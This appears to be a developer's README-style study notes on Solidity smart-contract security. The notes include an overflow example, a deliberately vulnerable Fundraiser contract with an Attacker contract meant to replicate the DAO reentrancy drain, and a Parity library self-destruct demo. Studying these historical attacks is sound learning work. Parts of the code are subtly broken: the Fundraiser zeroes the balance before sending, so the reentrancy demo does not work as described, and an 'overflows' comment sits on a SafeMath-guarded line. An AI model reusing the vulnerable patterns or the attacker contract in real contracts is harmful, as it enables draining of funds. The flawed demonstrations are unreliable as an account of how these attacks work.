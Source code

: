 # Saula-Atama

Software Develpment Projects\
Scales
Fantasy Football
Coin Tracker
seasons2
Pupparazzi
Royal KV

BlockChain
Multi Sig Wallet
Decentralised Exchange
Coin Tracker
Voting.
Token.



// KEEP IT SIMPLE , WHEN CODING SMART CONTRACT... I CANNOT EMPASIS HOW IMPORTANT IT IS FOR YOUR CODE TO BE SIMPLE, AND NOT COMPLEX BECAUSE OF LIBRARYS GETTING NUKED, OR PUBLIC FUCTION HAVING MULTIPLE ATTACKS ON IT FROM EXTERNAL FUCNTIONS.

// one way of getting AROUND SMART CONTRACTS immutability is using upgardeability and thats using a proxy contract on the side, kind like a new block or of code just needs to be wired up
// When dealing with Upgradeability as well the proxy and storage page or blocks remain, the function page or block will be removed and a new Func page can be added.

// The basis of security checks for any solidity smart contract is CHECKS-EFFECTS-INTERACTIONS Pattern.

pragma solidity ^0.4.10;

import "./SafeMath.sol";

contract Overflow{

    mapping (address=>uint) balances;

    function contribute() payable{
        balances[msg.sender] = msg.value;
    }

    function getBalance() constant returns (uint){
        return balances[msg.sender];
    }

    function batchSend(address[] _receivers, uint _value){
        // this line overflows
        uint total = SafeMath.mul(_receivers.length, _value);
        require(balances[msg.sender]>=total);

        // subtract from sender
        balances[msg.sender] = SafeMath.sub(balances[msg.sender], total);

        for(uint i=0;i<_receivers.length;i++){
            balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value);
        }
    }

}






pragma solidity ^0.4.10;

library SafeMath {

  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    //assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}



REPLICATING THE DAO ATTACK
pragma solidity ^0.4.8;


contract Fundraiser{
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        if(balances[msg.sender] == 0){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

import "./Fundraiser.sol";

contract Attacker{
    
    address public fundraiserAddress;
    uint public drainTimes = 0;
    
    function Attacker(address victimAddress){
        fundraiserAddress = victimAddress;
    }
 
    function() payable{
        if(drainTimes<3){
            drainTimes++;
            Fundraiser(fundraiserAddress).withdraw();
        }
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
    function payMe() payable{
        Fundraiser(fundraiserAddress).contribute.value(msg.value)();
    }
    
    function startScam(){
        Fundraiser(fundraiserAddress).withdraw();
    }
}
// what the attcker code does is that it keeps calling the function of the DAO without the DAO recording that it has called a refund.
// Coding smart contracts , keep it simple, a good contract is simple to read and written in a simple manner, adding complexiticity like adding libaries or dependencies in libraries will present vulnerablities to your smart contract, example in injecting malicious code, calling a public function with fallbacks. which will cause major damages.


Parity Freeze attack

pragma solidity ^0.4.8;
import "./Library.sol";

contract Fundraiser{
    
    Library lib = Library(0xbbf289d846208c16edc8474705c748aff07732db);
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        //if(balances[msg.sender] == 0)
        if(lib.isNotPositive(balances[msg.sender])){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

contract Library{
    
    address owner;
    
    function isNotPositive(uint number) returns (bool){
        if(number<=0){
            return true;
        }
        return false;
    }
    

    function destroy() public onlyOwner {
        selfdestruct(owner);
    }
    
    modifier onlyOwner {
        if(msg.sender != owner){
            throw;
        }
        _;
    }
    
    function initOwner(){
        if(owner==address(0)){
            owner = msg.sender;
        }
        else{
            throw;
        }
    }
    
}

The DAO hacker was the recursive refund function hack, the parity bug was when they nuked the library rendering the fuction unuseable.


